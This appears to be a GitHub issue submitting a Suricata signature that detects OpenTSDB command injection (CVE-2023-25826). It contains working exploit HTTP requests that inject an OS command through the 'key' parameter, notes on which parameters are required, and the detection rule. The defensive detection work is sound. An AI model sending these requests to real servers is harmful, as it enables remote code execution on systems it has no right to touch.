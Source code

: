 # ET Open Submission
### May 16th, 2024
### OpenTSDB arbitrary commands injection（CVE-2023-25826）


## Resources

1. [https://www.synopsys.com/blogs/software-security/opentsdb.html](https://www.synopsys.com/blogs/software-security/opentsdb.html)
2. [https://github.com/vulhub/vulhub/tree/master/opentsdb/CVE-2023-25826#opentsdb-arbitrary-commands-injectioncve-2023-25826](https://github.com/vulhub/vulhub/tree/master/opentsdb/CVE-2023-25826#opentsdb-arbitrary-commands-injectioncve-2023-25826)

### The exploit:

There must be at least one metric existing on the server for RCE. You can create your own metric as well.

Request sent to create a metric called `sys.cpu.nice`
```
POST /api/put/ HTTP/1.1
Host: your-ip:4242
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 150

{
    "metric": "sys.cpu.nice",
    "timestamp": 1346846400,
    "value": 20,
    "tags": {
       "host": "web01",
       "dc": "lga"
    }
}
```

The exploit is ran against the `key` parameter.
```
GET /q?start=2000/10/21-00:00:00&m=sum:sys.cpu.nice&o=&ylabel=1&xrange=&y2range=[42:42]&key=%3Bsystem%20%22touch%20/tmp/poc%22%20%22&wxh=1516x644&style=linespoint&baba=lala&grid=t&json HTTP/1.1
Host: your-ip:4242
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
```

The most important part of this is happening in the http.uri.

`/q?start=2000/10/21-00:00:00&m=sum:sys.cpu.nice&o=&ylabel=1&xrange=&y2range=[42:42]&key=%3Bsystem%20%22touch%20/tmp/poc%22%20%22&wxh=1516x644&style=linespoint&baba=lala&grid=t&json`

After some testing with the code, I have found that every parameter is required but it doesn't seem to matter what some of the contents are.

Findings on each parameter:

- start just needs to exist with a number.
- xrange can be empty or non existent
- The smallest the WXH can be is 100x100 and the largest it can be is 32767x32767
- "style" must satisfy the pattern (linespoint|points|circles|dots)
- baba doesn't seem to need to exist.
- json needs to be there.

Example of a modified and working URI.

`/q?start=5&ylabel=1&y2range=[00:00]&style=linespoint&key=%3Bsystem "touch /tmp/poc1" "&wxh=32767x100&grid=2&json&m=sum:sys.cpu.nice`

I think the meat of this sig might fall in the `key=%3Bsystem%20%22<OS Command>%22%20%22` or `key=;system "<OS Command>" "`

Now I swear there is a blog somewhere about catching generic bash commands for PCRE in a sig but I, for the life of me, have no clue where it is now. I would run it for the `key=;system "<OS Command>" "` 

## Signature

```alert http $EXTERNAL_NET any -> $HOME_NET any (msg:"OpenTSDB arbitrary commands injection (CVE-2023-25826)"; flow:established,to_server; http.method; content:"GET"; bsize:3; http.uri; content:"|2f|q|3f|"; startswith; content:"key|3d 3b|system|20 22|"; fast_pattern; content:"|22 20 22|"; distance:3; within:500; content:"m|3d|sum|3a|"; content:"ylabel=";  pcre:"/style|3d|(linespoint|points|circles|dots)/R"; content:"start|3d|"; pcre:"/y2range|3d|\[[0-9]{1,2}:[0-9]{1,2}\]/Ri"; sid:1; rev:1; metadata:attack_target Server, created_at 2024_05_06, deployment Perimeter, deployment Internal, former_category EXPLOIT, signature_severity Major, tag Exploit, updated_at 2024_05_06;)```

[Pcap Zip](https://github.com/eatinsundip/Suricata/files/15341109/90a3efa157c3e6d.zip)


[https://dalton.securitymidwest.net/dalton/job/18e7f569a8f358f4](https://dalton.securitymidwest.net/dalton/job/18e7f569a8f358f4)
